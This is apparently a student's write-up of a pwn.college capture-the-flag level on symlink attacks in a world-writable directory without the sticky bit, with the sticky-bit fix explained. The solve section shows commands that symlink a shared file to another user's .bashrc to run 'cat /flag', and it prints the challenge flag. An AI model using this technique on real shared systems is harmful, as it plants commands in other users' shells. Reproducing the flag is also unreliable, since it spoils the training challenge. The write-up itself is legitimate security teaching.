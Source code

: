 You know the file to link to. Pull off the attack, and get /flag (which, for this level, Zardus can read again!).

HINT: You'll need to run /challenge/victim twice: once to get cat /flag written to where you want, and once to trigger it!

Is /tmp dangerous to use??? Despite the attack shown here, /tmp can be used safely. The directory is world-writable, but has a special permission bit set:

```bash
hacker@dojo:~$ ls -ld /tmp
```
drwxrwxrwt 29 root root 1056768 Jun  6 14:06 /tmp
hacker@dojo:~$
That t bit at the end is the sticky bit. The sticky bit means that the directory only allows the owners of files to rename or remove files in the directory. It's designed to prevent this exact attack! The problem in this challenge, of course, was that Zardus did not enable the sticky bit on /tmp/collab. This would have closed the hole in this specific case:

```bash
zardus@dojo:~$ chmod +t /tmp/collab
```
Of course, shared resources like world-writable directories are still dangerous. Much later, in the Race Conditions of the Green Belt material, you'll see many ways in which such resources can cause security issues!

### Solve
**Flag:** `pwn.college{4R97_HbOm4r4Ci3URzozhsnsIoo.0VM0EzNxwSN1gjNzEzW}`
 for this Challenge,i removed the target file evil_commands and made a same filename as symbolic link to zardus's .bashrc script.Then i ran /challenge/victim twice to get the flag.

```bash 
hacker@shenanigans~tricky-linking:~$ rm -f /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:~$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{4R97_HbOm4r4Ci3URzozhsnsIoo.0VM0EzNxwSN1gjNzEzW}
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
```

### New Learnings
I learned how a symbolic link can used in a .bashrc script to exploit the user to execute a some other program which the use has the permission.

### References
